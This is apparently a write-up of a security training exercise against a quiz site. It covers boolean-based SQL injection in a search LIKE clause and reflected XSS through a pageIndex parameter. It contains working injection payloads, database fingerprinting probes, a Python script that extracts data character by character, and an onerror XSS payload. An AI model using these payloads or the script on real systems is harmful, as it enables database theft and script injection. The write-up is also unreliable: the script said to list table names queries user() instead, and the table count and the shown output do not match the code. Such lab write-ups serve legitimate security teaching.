 # Practical Test ACS EDU

#### First challenge: SQL injection in the LIKE clause

This challenge is a program that lets users search for posts and view them.

`notice.php?pageIndex=1&keyword=nglong05` is the query being used. After reconnaissance, trying payloads and observing the responses, we can infer the backend likely runs a query like:

```sql
SELECT id 
FROM posts 
WHERE 1=1 AND title LIKE '%nglong05%' 
ORDER BY id DESC 
LIMIT 1 OFFSET 0;
```

The reason is: when we inject `%'and+(1)+and+'1%'='1` into the `keyword` parameter, the program returns all posts, meaning the logic is always true (`AND (1)`). But if we change the payload to `%'and+(0)+and+'1%'='1`, the program returns no posts. From this we can perform a boolean-based SQL injection here.

Next we do recon to verify which database we’re working with. From the response headers:

- Server: Apache/2.4.17 (Win64) PHP/7.0.1

- X-Powered-By: PHP/7.0.1

It’s very likely MySQL, because Apache + PHP (Windows) running on WAMP/XAMPP/MAMP/etc. typically comes with MySQL (or modern MariaDB). We can still confirm precisely using probes like:

| Database   | Payload            |
| ---------- | ------------------ |
| MySQL      | `database()`       |
| PostgreSQL | `pg_sleep(3)`      |
| MSSQL      | `DB_NAME()`        |
| Oracle     | `ROWNUM=1`         |
| SQLite     | `sqlite_version()` |

Testing confirms the backend is using **MySQL**.

Next, we dump table and column names.

We can count how many tables are in the DB with:

`(SELECT count(*) FROM information_schema.tables WHERE table_schema = database()) = 7`

Then we retrieve table names like this:

```sql
SELECT ASCII(SUBSTRING(
(SELECT table_name
FROM information_schema.tables
WHERE table_schema = database()
LIMIT N,1), P, 1)
)) > X
```

We write a Python script that uses the payload above with binary search

```python
import requests

url = "http://quiz.sas.ne.kr/exam5/notice.php"

def send(table_idx, position, value):
    logic = f"SELECT ASCII(SUBSTRING(user(),{position},1))>{value}"
    payload = f"%' AND ({logic}) AND '1%'='1"
    r = requests.get(url, params={"keyword": payload})
    print(r.status_code)
    return "등록된 게시물이 없습니다." not in r.text

def get_char(table_idx, position, lo=32, hi=126):
    low, high = lo, hi
    while low <= high:
        mid = (low + high) // 2
        if send(table_idx, position, mid):
            # print("true")
            low = mid + 1
        else:
            # print("false")
            high = mid - 1
    if high < lo:
        return None
    print(chr(low))
    return chr(low)

def get_table_name(table_idx, max_len=64):
    result = []
    for pos in range(1, max_len + 1):
        c = get_char(table_idx, pos)
        if c is None:
            break
        result.append(c)
    return "".join(result)

if __name__ == "__main__":
    for idx in range(5):
        print(get_table_name(idx))
```

The results show 7 tables:

`python3 s.py access_log answer comm_file comm_mdi_file member notice zipcode`

This validates the vulnerability. The goal is to read `user()`. We modify the payload as follows to obtain the result:

```python
def send(table_idx, position, value):
    logic = f"SELECT ASCII(SUBSTRING(user(),{position},1))>{value}"
    payload = f"%' AND ({logic}) AND '1%'='1"
    r = requests.get(url, params={"keyword": payload})
    print(r.status_code)
    return "등록된 게시물이 없습니다." not in r.text
```

The returned result is: `infos@localhost`

#### Second challenge: reflected XSS

The target application was `notice.php`, which takes several query parameters, including `pageIndex`. Our objective was to test if unsanitized user input could break out of the HTML context and execute JavaScript in the browser.

I started by sending requests with different payloads to see where the reflection occurred. Example request:

```
GET /exam16/notice.php?pageIndex=12345 HTTP/1.1
Host: quiz.sas.ne.kr
```

Looking at the response, I observed that the value of `pageIndex` was being inserted directly into a hidden input field in the returned HTML:

```html
<input type="hidden" id="pageIndex" name="pageIndex" value="12345" />
```

To test if the input is sanitized, I injected a simple payload:

```
GET /exam16/notice.php?pageIndex=1"><img+src=x+onerror=alert('XSS')> HTTP/1.1
Host: quiz.sas.ne.kr
```

In the response, the injected code appeared inside the DOM:

```html
<input type="hidden" id="pageIndex" name="pageIndex" value="1">
<img src=x onerror=alert('XSS')>" />
```

Here, the payload successfully broke out of the `value` attribute by closing it with `">`. The rest of the string created a new `<img>` tag with an invalid source, which immediately triggered the `onerror` event handler.

![](images/aseasn_image1.png)
